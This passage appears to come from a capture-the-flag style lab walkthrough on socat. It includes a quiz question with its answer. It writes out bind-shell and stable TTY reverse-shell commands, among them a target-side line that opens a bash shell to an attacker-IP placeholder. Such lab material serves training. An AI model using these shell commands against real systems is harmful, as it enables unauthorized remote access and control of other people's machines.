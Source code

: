 **Attacker (Connect to Shell):**

On the attacker’s machine, connect to the listener with:
```bash
socat TCP:<TARGET-IP>:<PORT> -
```

### Stable Linux TTY Reverse Shell (Socat’s Power Feature)
One of Socat’s most powerful uses is creating a fully stable TTY reverse shell — ideal for Linux targets.

**Listener (Attacker Machine):**
```bash
socat TCP-L:<PORT> FILE:`tty`,raw,echo=0
```
**Breakdown:**
- FILE:\tty`` connects standard I/O to the terminal device.
- raw,echo=0 disables echo and puts terminal in raw mode, improving shell stability.


**Target (Trigger Reverse Shell with Socat):**
```bash
socat TCP:<ATTACKER-IP>:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

**Explanation of options:**

- EXEC:"bash -li": Starts a login Bash shell.
- pty: Allocates a pseudo-terminal.
- stderr: Displays error output.
- sigint: Enables signal interruptions like Ctrl+C.
- setsid: Starts a new session.
- sane: Normalizes terminal settings for better behavior.

### Enhancements and Troubleshooting
- For text editor support (e.g., Vim, Nano), consider running:
  ```bash
  stty raw -echo; fg
  ```
  after receiving the shell.

- For debugging, increase verbosity:
  ```bash
  socat -d -d [rest-of-command]
  ```
This will help you understand where issues may be occurring, especially when working in unfamiliar environments or experimenting with configurations.

### Question 1:
How would we get socat to listen on TCP port 8080?

**Answer:** TCP-L:8080

## Task 7 Socat Encrypted Shells
One of the most powerful features of Socat is its ability to create encrypted bind and reverse shells using OpenSSL. This provides:
